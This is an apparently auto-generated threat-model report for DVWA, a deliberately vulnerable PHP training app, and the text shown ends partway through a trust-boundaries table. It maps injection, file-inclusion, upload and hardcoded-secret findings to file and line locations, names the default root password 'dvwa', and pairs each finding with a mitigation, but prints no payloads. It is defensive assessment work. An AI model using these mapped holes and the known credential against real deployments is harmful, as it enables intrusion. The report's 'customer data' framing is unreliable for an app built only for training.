# Threat Model - docs

_Generated by appsec-advisor v0.5.2-dev (analysis v5)_


---

> | | |
> |---|---|
> | **Project** | DVWA |
> | **Description** | Damn Vulnerable Web Application (DVWA) is a PHP/MariaDB web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand… |
> | **Repository** | `https://github.com/digininja/DVWA` |
> | **Homepage** | `https://github.com/digininja/DVWA` |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|---------------------|--------|--------|--------------|------------------|----------------|--------|---------------|
| v1 | 2026-08-02 20:24 CEST | full | standard | sonnet-economy | _(initial)_ | 58 total | - | first full scan |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
   - [Trust Boundaries](#trust-boundaries)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 SQL Injection in Low](#31-sql-injection-in-low)
   - [3.2 OS Command Injection in Health Controller](#32-os-command-injection-in-health-controller)
   - [3.3 OS Command Injection in Low](#33-os-command-injection-in-low)
   - [3.4 Local and Remote File Inclusion in DVWA PHP Web Application](#34-local-and-remote-file-inclusion-in-dvwa-php-web-application)
   - [3.5 Unrestricted File Upload to Web-Accessible Directory in Low](#35-unrestricted-file-upload-to-web-accessible-directory-in-low)
   - [3.6 User-controlled input reaches a server-side execution sink in Low](#36-user-controlled-input-reaches-a-server-side-execution-sink-in-low)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (6)](#51-unauthenticated-entry-points-6)
   - [5.2 Authenticated Entry Points (17)](#52-authenticated-entry-points-17)
6. [Security Architecture](#6-security-architecture)
   - [6.1 Security Control Overview](#61-security-control-overview)
   - [6.2 Identity and Authentication Controls](#62-identity-and-authentication-controls)
   - [6.3 Session and Token Controls](#63-session-and-token-controls)
   - [6.4 Authorization Controls](#64-authorization-controls)
   - [6.5 Query Construction and Data Access Controls](#65-query-construction-and-data-access-controls)
   - [6.6 Input Boundary Validation Controls](#66-input-boundary-validation-controls)
   - [6.7 Output Encoding and Rendering Controls](#67-output-encoding-and-rendering-controls)
   - [6.8 Browser and Cross-Origin Controls](#68-browser-and-cross-origin-controls)
   - [6.9 Cryptography Secrets and Data Protection](#69-cryptography-secrets-and-data-protection)
   - [6.10 File Parser and Outbound Request Controls](#610-file-parser-and-outbound-request-controls)
   - [6.11 Operations Runtime and Supply Chain Controls](#611-operations-runtime-and-supply-chain-controls)
   - [6.12 Real-time and Not Applicable Controls](#612-real-time-and-not-applicable-controls)
   - [6.13 Defense-in-Depth Summary](#613-defense-in-depth-summary)
7. [Weakness Register](#7-weakness-register)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix: Composition Notes](#appendix-composition-notes)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

---

## Management Summary

### Verdict

🔴 The assessment reveals a severely exposed application with multiple independently exploitable paths to full server takeover, including one that requires no login at all.

**Risk distribution:** 🔴 Critical: 6 · 🟠 High: 32 · 🟡 Medium: 10 · 🟢 Low: 0 · **Total: 48**<br/>**Assessment evidence:** 44 confirmed-exploitable finding(s) · 1 implementation weakness(es) · 4 design weakness(es)


**Scope:** 3 of 4 components received full STRIDE analysis - the externally-reachable, authentication-bearing, and business-critical surface. 1 further component(s) received a reduced-budget screening pass (all six STRIDE categories, no verification greps) and are marked `Screened` in the component table. (see [§1 Scope](#scope)).

<br/>

**The following scenarios represent the most likely paths to material harm:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Server takeover without credentials** — An unauthenticated command injection in the public health check feature lets any internet visitor run arbitrary system commands as the web server. *(🔴 [F-001](#f-001) — OS Command Injection (`vulnerabilities/api/src/HealthController.php:88`))*
- **All customer data readable** — User input is inserted directly into database commands, letting attackers read every account record, credential, and stored value without any access restriction. *(🔴 [F-003](#f-003) — SQL Injection (`vulnerabilities/sqli/source/low.php:10`))*
- **Attacker-controlled code runs on server** — File inclusion and upload defects allow an authenticated user to deliver and execute files that give permanent control of the web server. *(🔴 [F-004](#f-004) — Local and Remote File Inclusion (`vulnerabilities/fi/index.php:36`), 🔴 [F-005](#f-005) — Unrestricted File Upload to Web-Accessible Directory (`low.php:9`), 🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink)* — ✓ verified attack path
- **Credentials visible to anyone with code access** — Database pass**** (8 chars)s and signing keys are stored unencrypted in version-controlled files, meaning every past and present team member can extract them. *(🔴 [F-006](#f-006) — Hardcoded Database Credentials in `compose.yml` Enable Unauthenticated Access, 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`vulnerabilities/api/src/Login.php:10`), 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`) → [W-003](#w-003))* — ✓ verified attack path
- **Passwords stored with broken protection** — All user pass**** (8 chars)s are hashed with an outdated algorithm that modern tools can reverse in minutes, making any database theft equivalent to plaintext credential exposure. *(🟠 [F-025](#f-025) — Cleartext Passwords in SQLite User Seed (`create_sqlite_db.sql:22`), 🟠 [F-026](#f-026) — Unsalted MD5 Hashing Used for User Passwords (`create_postgresql_db.sql:2`) → [W-004](#w-004))*
- **Active sessions stolen via malicious content** — User-supplied content is embedded in pages without escaping, allowing scripts to run in other users' browsers and silently capture their active logins. *(🔴 [F-017](#f-017) — Cross-Site Scripting (XSS))*

</blockquote>

<br/>

Isolating this application from all networks carrying real user data is requ**** (8 chars) until these defects are systematically addressed.

### Top Weaknesses

The systemic root-cause problems behind the findings - the classes to fix, not just individual bugs. Each links to the full [Weakness Register](#7-weakness-register) with its findings and remediation.

- 🟠 **[W-001](#w-001) - Input handling lacks enforced boundary validation** (High) - Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting select…
- 🟠 **[W-002](#w-002) - Build pipeline trusts mutable third-party references** (High) - CI/CD workflows resolve third-party actions and other build dependencies to mutable tags or branches instead of immutable commit digests, so a retagged or compromised upstream runs inside the pipel… _Proven by [F-014](#f-014), [F-022](#f-022)._
- 🟠 **[W-003](#w-003) - Secrets are committed to source instead of a managed store** (High) - Cryptographic keys, credentials, and other high-entropy secrets are embedded as literals in source or config rather than resolved at runtime from a managed secret store, so anyone with repository r… _Proven by [F-006](#f-006), [F-007](#f-007), [F-008](#f-008) (+2 more)._

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Architecture tiers top-to-bottom (External Actors → Client → Application → Data) with the top threats per component. The in-figure legend on the right explains the attack scenarios, severity dots and symbols. Dashed slate lines mark trust-boundary crossings, labelled with the `tb-N` ids catalogued in [§1 Trust Boundaries](#trust-boundaries).



**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑤ are the threats enumerated in the Top Threats table below.



**Threat actors.** The actors below drive the numbered attack paths in the figures above.

- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ④ Sensitive File & Secret Exposure, ⑤ Remote Code Execution (unsafe eval).

**5 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>user input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation. | <span style="white-space:nowrap">🔴&nbsp;[F-001](#f-001)</span> - OS Command Injection (`HealthController.php:88`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - OS Command Injection (`low.php:10`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - SQL Injection (`low.php:10`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-012](#f-012)</span> - OS Command Injection (`HealthController.php:88`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - SQL Injection (`MySQL.php:37`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">● [M-001](#m-001)</span> — Centralized input validation and output encoding layer<br/><span style="white-space:nowrap">● [M-003](#m-003)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>authentication can be circumvented or forged because credentials, signing keys, or pass**** (8 chars) hashes are weak, missing, or exposed. | <span style="white-space:nowrap">🔴&nbsp;[F-006](#f-006)</span> - Hardcoded Database Credentials in compose\.yml Enable Unauthenticated Access (`compose.yml:31`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;GitHub Actions CI/CD Pipeline<br/><span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - Hardcoded Cryptographic Key (`Login.php:10`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - Hardcoded User and OAuth2 Client Credentials (`LoginController.php:60`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🟠&nbsp;[F-026](#f-026)</span> - Unsalted `MD5` Hashing Used for User Passwords (`create_postgresql_db.sql:2`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;MariaDB / MySQL Database<br/><span style="white-space:nowrap">🔴&nbsp;[F-031](#f-031)</span> - Hardcoded Default Database Password in Repository (`config.inc.php.dist:21`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;MariaDB / MySQL Database<br/><span style="white-space:nowrap">🔴&nbsp;[F-035](#f-035)</span> - Known Root Password 'dvwa' Enables Full DB Admin Access (`compose.yml:31`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;GitHub Actions CI/CD Pipeline<br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - `MD5` Password Hashing Without Salt (`login.php:27`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-040](#f-040)</span> - Broken hash primitive PHP `dvwa/includes/dvwaPage.inc.php:651` (`MD5/SHA-1`) (`dvwaPage.inc.php:651`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-041](#f-041)</span> - Broken hash primitive PHP (`impossible.php:14`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-042](#f-042)</span> - Broken hash primitive PHP (`impossible.php:19`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-043](#f-043)</span> - Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:15` (`SHA-1`) (`impossible.php:15`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-044](#f-044)</span> - Broken hash primitive PHP `vulnerabilities/csrf/source/impossible.php:29` (`SHA-1`) (`impossible.php:29`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-045](#f-045)</span> - Broken hash primitive PHP `vulnerabilities/csrf/test_credentials.php:19` (`SHA-1`) (`test_credentials.php:19`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-046](#f-046)</span> - Broken hash primitive PHP `vulnerabilities/javascript/index.php:43` (`MD5/SHA-1`) (`index.php:43`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-047](#f-047)</span> - Broken hash primitive PHP `vulnerabilities/javascript/source/low.php:18` (`SHA-1`) (`low.php:18`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🔴&nbsp;[F-052](#f-052)</span> - Container image signing via cosign or attest-build-provenance (`docker-image.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;GitHub Actions CI/CD Pipeline<br/><span style="white-space:nowrap">🟡&nbsp;[F-056](#f-056)</span> - Predictable Sequential Session Identifier (`low.php:9`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-006](#m-006)</span> — Move secrets to a managed secret store<br/><span style="white-space:nowrap">◕ [M-007](#m-007)</span> — Move cryptographic keys to a managed secret store |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes. | <span style="white-space:nowrap">🔴&nbsp;[F-016](#f-016)</span> - Missing Authentication on User CRUD Endpoints (`UserController.php:265`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - Client-Controlled Security Level Bypasses All Module Protections (`dvwaPage.inc.php:204`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟠&nbsp;[F-021](#f-021)</span> - GitHub Actions workflow-level permissions block (`docker-image.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;GitHub Actions CI/CD Pipeline<br/><span style="white-space:nowrap">🔴&nbsp;[F-036](#f-036)</span> - Unauthenticated User Privilege Level Manipulation (`UserController.php:225`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🟡&nbsp;[F-053](#f-053)</span> - `GITHUB_TOKEN` scope minimization (`docker-image.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span>&nbsp;GitHub Actions CI/CD Pipeline | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-015](#m-015)</span> — Enforce server-side authorization on every endpoint<br/><span style="white-space:nowrap">◕ [M-018](#m-018)</span> — Store security level server-side in the PHP session, not in a client-controlled… |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content. | <span style="white-space:nowrap">🟠&nbsp;[F-025](#f-025)</span> - Cleartext Passwords in SQLite User Seed (`create_sqlite_db.sql:22`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span>&nbsp;MariaDB / MySQL Database<br/><span style="white-space:nowrap">🟠&nbsp;[F-027](#f-027)</span> - Password Hash Exposure via v1 User API (`User.php:44`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Database Error Disclosure in Authentication Path (`login.php:40`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-039](#f-039)</span> - Open Redirect (`low.php:4`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application<br/><span style="white-space:nowrap">🟡&nbsp;[F-054](#f-054)</span> - Unauthenticated Swagger UI and OpenAPI Specification Exposure (`gen_openapi.php:4`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span>&nbsp;DVWA REST API (Slim + Swagger)<br/><span style="white-space:nowrap">🟠&nbsp;[F-060](#f-060)</span> - Data disclosure through cleartext transport (`about.php:28`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application | 🟠 **High**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">◕ [M-024](#m-024)</span> — Stop storing sensitive data in cleartext<br/><span style="white-space:nowrap">◕ [M-026](#m-026)</span> — Stop exposing internal information to clients |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>user-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution. | <span style="white-space:nowrap">🔴&nbsp;[F-061](#f-061)</span> - User-controlled input reaches a server-side execution sink (`low.php:14`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span>&nbsp;DVWA PHP Web Application | 🔴 **Critical**<br/>Full Server Compromise · Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">● [M-049](#m-049)</span> — Remove server-side evaluation of untrusted input |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 2 fully viable ([AC-T-005](#ac-t-005), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 16 of 38 qualifying (49 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 16 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-01](#c-01) — DVWA PHP Web Application | ● [M-003](#m-003) — Use parameterized database queries (`low.php:10`) | 🔴 [F-003](#f-003) — SQL Injection (`low.php`) | Low |
| **2** | [C-01](#c-01) — DVWA PHP Web Application | ● [M-004](#m-004) — Restrict file inclusion to an explicit allowlist of permitted page filenames (`index.php:36`) | 🔴 [F-004](#f-004) — Local and Remote File Inclusion (`index.php`) | Low |
| **3** | [C-01](#c-01) — DVWA PHP Web Application | ● [M-005](#m-005) — Enforce MIME type allowlist and rename uploaded files before storing in web-acc… (`low.php:9`) | 🔴 [F-005](#f-005) — Unrestricted File Upload to Web-Accessible Directory (`low.php`) | Medium |
| **4** | [C-01](#c-01) — DVWA PHP Web Application | ● [M-049](#m-049) — Remove server-side evaluation of untrusted input (`low.php:14`) | 🔴 [F-061](#f-061) — User-controlled input reaches a server-side execution sink (`low.php`) | Medium |
| **5** | [C-02](#c-02) — DVWA REST API (Slim + Swagger) | ● [M-001](#m-001) — Centralized input validation and output encoding layer (`HealthController.php:88`) | 🔴 [F-001](#f-001) — OS Command Injection (`HealthController.php`) | Low |
| **6** | [C-01](#c-01) — DVWA PHP Web Application | ◕ [M-002](#m-002) — Establish automated dependency scanning and update SLA (`low.php:10`) | 🔴 [F-002](#f-002) — OS Command Injection (`low.php`) | Low |
| **7** | [C-01](#c-01) — DVWA PHP Web Application | ◕ [M-016](#m-016) — Encode output instead of bypassing the framework sanitizer (`low.php:16`) | 🔴 [F-017](#f-017) — Cross-Site Scripting (`low.php`) | Low |
| **8** | [C-01](#c-01) — DVWA PHP Web Application | ◕ [M-036](#m-036) — Require authentication on every exposed endpoint (`setup.php:6`) | 🔴 [F-037](#f-037) — Unauthenticated Database Setup and Reset Endpoint (`setup.php`) | Low |
| **9** | [C-01](#c-01) — DVWA PHP Web Application | ◕ [M-012](#m-012) — Use parameterized database queries (`MySQL.php:37`) | 🔴 [F-013](#f-013) — SQL Injection (`MySQL.php`) | Medium |
| **10** | [C-02](#c-02) — DVWA REST API (Slim + Swagger) | ◕ [M-007](#m-007) — Move cryptographic keys to a managed secret store (`Login.php:10`) | 🔴 [F-007](#f-007) — Hardcoded Cryptographic Key (`Login.php`) | Low |
| **11** | [C-02](#c-02) — DVWA REST API (Slim + Swagger) | ◕ [M-015](#m-015) — Enforce server-side authorization on every endpoint (`UserController.php:265`) | 🔴 [F-016](#f-016) — Missing Authentication on User CRUD Endpoints (`UserController.php`) | Low |
| **12** | [C-02](#c-02) — DVWA REST API (Slim + Swagger) | ◕ [M-035](#m-035) — Enforce server-side authorization on every endpoint (`UserController.php:225`) | 🔴 [F-036](#f-036) — Unauthenticated User Privilege Level Manipulation (`UserController.php`) | Low |
| **13** | [C-02](#c-02) — DVWA REST API (Slim + Swagger) | ◕ [M-008](#m-008) — Move secrets to a managed secret store (`LoginController.php:60`) | 🔴 [F-008](#f-008) — Hardcoded User and OAuth2 Client Credentials (`LoginController.php`) | Medium |
| **14** | [C-03](#c-03) — MariaDB / MySQL Database | ◕ [M-030](#m-030) — Move secrets to a managed secret store (`config.inc.php.dist:21`) | 🔴 [F-031](#f-031) — Hardcoded Default Database Password in Repository (`config.inc.php.dist`) | Low |
| **15** | [C-04](#c-04) — GitHub Actions CI/CD Pipeline | ◕ [M-034](#m-034) — Move secrets to a managed secret store (`compose.yml:31`) | 🔴 [F-035](#f-035) — Known Root Password 'dvwa' Enables Full DB Admin Access (`.yml`) | Low |
| **16** | [C-04](#c-04) — GitHub Actions CI/CD Pipeline | ◕ [M-006](#m-006) — Move secrets to a managed secret store (`compose.yml:31`) | 🔴 [F-006](#f-006) — Hardcoded Database Credentials in compose\.yml Enable Unauthenticated Access (`.yml`) | Medium |

*22 additional P1/P2 mitigations capped from the leader-board · 11 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§6](#6-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§6](#6-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="20%" style="width:20%"><col width="33%" style="width:33%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th></tr></thead>
<tbody>
<tr><td style="overflow-wrap:break-word"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:break-word"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Lockfile hygiene<br/>Container Image Hygiene</td><td style="overflow-wrap:break-word">✅ Adequate</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a>
<a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.



**Findings** (full detail in [§8 Findings Register](#8-findings-register)): [F-001](#f-001) · [F-002](#f-002) · [F-003](#f-003) · [F-004](#f-004) · [F-005](#f-005) · [F-061](#f-061)

---

## 1. System Overview

**Repository:** `https://github.com/digininja/DVWA`

### Scope

This threat model covers 4 components of DVWA: **DVWA PHP Web Application**, **DVWA REST API (Slim + Swagger)**, **MariaDB / MySQL Database**, **GitHub Actions CI/CD Pipeline**.

All 4 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

### Trust Boundaries

Canonical boundary crossings. **Assumption & verdict** names the condition that makes each crossing safe and whether this report still supports it, judged one condition at a time - which conditions apply follows from the direction of the crossing.

<table style="table-layout:fixed;width:100%">
<colgroup><col width="6%" style="width:6%"><col width="25%" style="width:25%"><col width="11%" style="width:11%"><col width="15%" style="width:15%"><col width="25%" style="width:25%"><col width="18%" style="width:18%"></colgroup>
<thead><tr><th>ID</th><th>Boundary / crossing</th><th>Exposure</th><th>Kind</th><th>Assumption &amp; verdict</th><th>Linked findings</th></tr></thead>
<tbody>
